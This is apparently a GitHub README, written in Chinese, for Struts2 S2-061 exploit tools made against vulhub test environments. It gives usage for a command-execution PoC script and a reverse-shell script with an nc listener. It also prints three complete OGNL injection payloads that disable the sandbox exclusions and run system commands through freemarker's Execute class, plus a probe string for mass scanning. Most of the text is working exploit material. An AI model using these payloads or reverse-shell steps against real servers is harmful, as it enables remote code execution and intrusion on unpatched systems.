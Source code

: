 S2-061

脚本皆根据vulhub的struts2-059/061漏洞测试环境来写的，不具普遍性，还望大佬多多指教

- struts2-061-poc.py（可执行简单系统命令）

    用法：python struts2-061-poc.py http://ip:port command
    
    例子：python struts2-061-poc.py http://192.168.0.7:8080 whoami
- S2-061-shell.py（可反弹shell）

    用法：
    1. 首先在一台机器A上监听指定端口(例如：nc -lvvp 7777）
    
    2. 执行脚本：python2 S2-061-shell.py target_url,其中target_url为漏洞环境地址，形式为http://ip:port
    
    3. 根据脚本提示输入A机器的IP及所监听的端口，即可在机器A的监听窗口获取到shell


---
---


以下是几个大佬搞出来的payload：

## payload-1:(from ka1n4t)

`
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("whoami")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
`

## payload-2:(from Smi1e)
完整分析文章：https://mp.weixin.qq.com/s?__biz=Mzg2NjQ2NzU3Ng==&mid=2247485921&idx=1&sn=096e61db21281c6392c6b7d8c70fe458


#### 使用 application，就是思路的完整 POC
`
%{(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + (#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}
`


#### 使用 request，单次请求有效的完整 POC (推荐)
`
%{(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + (#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'whoami'}))}
`

**注意**：请使用 url 对以上的 OGNL 代码编码后，再在工具上使用。

#### 检测思路：

在新版本的struts2中，已经不能通过参数构造来解析ognl表达式了，所以如果考虑想要使用脚本来进行批量扫描是否有本漏洞的时候，可以考虑直接爆破所有参数，然后判断页面中是否有预计的结果文本即可。
    
eg：
`%{ 'gcowsec-' + (2000 + 20).toString()}`

预计会得到

`gcowsec-2020`

使用脚本判断结果中是否包含就可以了



